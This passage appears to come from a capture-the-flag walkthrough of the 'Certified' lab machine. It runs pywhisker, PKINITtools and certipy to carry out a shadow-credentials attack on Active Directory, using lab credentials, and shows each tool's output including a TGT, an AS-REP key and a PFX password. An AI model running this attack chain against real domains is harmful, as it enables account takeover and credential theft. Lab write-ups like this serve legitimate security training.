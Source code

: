 ```bash
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --verbose
```

```bash
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: e197addf-0fda-e01f-42d5-a8040aa01029
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: 7YEeNBnq
[VERBOSE] No pass was provided. The certificate will be stored with the password: qSBdiOLRJXQo59IA67hp
[+] Saved PFX (#PKCS12) certificate & key at path: 7YEeNBnq.pfx
[*] Must be used with password: qSBdiOLRJXQo59IA67hp
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
[VERBOSE] Run the following command to obtain a TGT
[VERBOSE] python3 PKINITtools/gettgtpkinit.py -cert-pfx 7YEeNBnq.pfx -pfx-pass qSBdiOLRJXQo59IA67hp certified.htb/management_svc 7YEeNBnq.ccache
```

#### Next we get the session secret
in order to decrypt data exchanged with the KDC we  need to find the session secret
```bash
python3 ~/work/tools/PKINITtools/gettgtpkinit.py -cert-pfx 7YEeNBnq.pfx -pfx-pass qSBdiOLRJXQo59IA67hp certified.htb/management_svc 7YEeNBnq.ccache
```

```bash
2024-12-21 19:54:39,002 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-12-21 19:54:39,025 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-12-21 19:54:41,924 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-12-21 19:54:41,924 minikerberos INFO     5144a65e87fa07e2383cb18ff8ff4b003dd1deb832b63e1a9e209efaa0a728db
INFO:minikerberos:5144a65e87fa07e2383cb18ff8ff4b003dd1deb832b63e1a9e209efaa0a728db
2024-12-21 19:54:41,929 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

#### use the U2U service to retrieve our user's hash

first lets disable the password protection because certipy does not support that
```bash
certipy cert -export -pfx "7YEeNBnq.pfx" -password "qSBdiOLRJXQo59IA67hp" -out unprotected_pfx.pfx
```

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing PFX to 'unprotected_pfx.pfx'
```
